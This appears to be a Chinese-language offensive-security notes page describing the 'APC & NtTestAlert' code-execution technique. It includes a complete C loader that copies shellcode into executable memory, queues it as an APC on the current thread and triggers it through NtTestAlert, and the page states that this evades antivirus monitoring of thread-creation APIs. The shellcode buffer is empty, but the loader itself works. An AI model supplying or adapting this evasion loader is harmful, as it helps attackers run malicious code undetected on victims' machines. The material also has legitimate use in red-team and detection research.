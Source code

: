 ```yaml
---
description: APC & NtTestAlert代码执行
---
```


# APC & NtTestAlert Code Execute

## APC & NtTestAlert Code Execute简介

在Early Bird篇章介绍过,本质上是线程初始化时调用的为导出函数NtTestAlert函数清空APC队列导致的代码执行,那我们是不是可以直接调用这个函数进行代码执行呢？

这种技术并不依赖CreateThread和CreateRemoteThread等被杀软严格监控的API就能进行代码执行,也并没有直接操作恶意代码,而是触发操作系统去帮我们执行这些恶意代码,这样也一定程度上逃避了检测。

## 执行流程

1. 修改shellcode执行权限
2. 获取NtTestAlert函数地址
3. 插入APC队列
4. 调用NtTestAlert

## 代码实现

```text
#include <Windows.h>
#include<stdio.h>
char shellcode[]="";
typedef VOID(NTAPI* pNtTestAlert)(VOID);
int main() {

	pNtTestAlert NtTestAlert = (pNtTestAlert)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtTestAlert");

	LPVOID lpBaseAddress = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	memcpy(lpBaseAddress, shellcode, sizeof(shellcode));

	QueueUserAPC((PAPCFUNC)lpBaseAddress, GetCurrentThread(), NULL);
	
	NtTestAlert();
	return 0;
}
```

## LINKS

{% embed url="https://undocumented.ntinternals.net/" %}



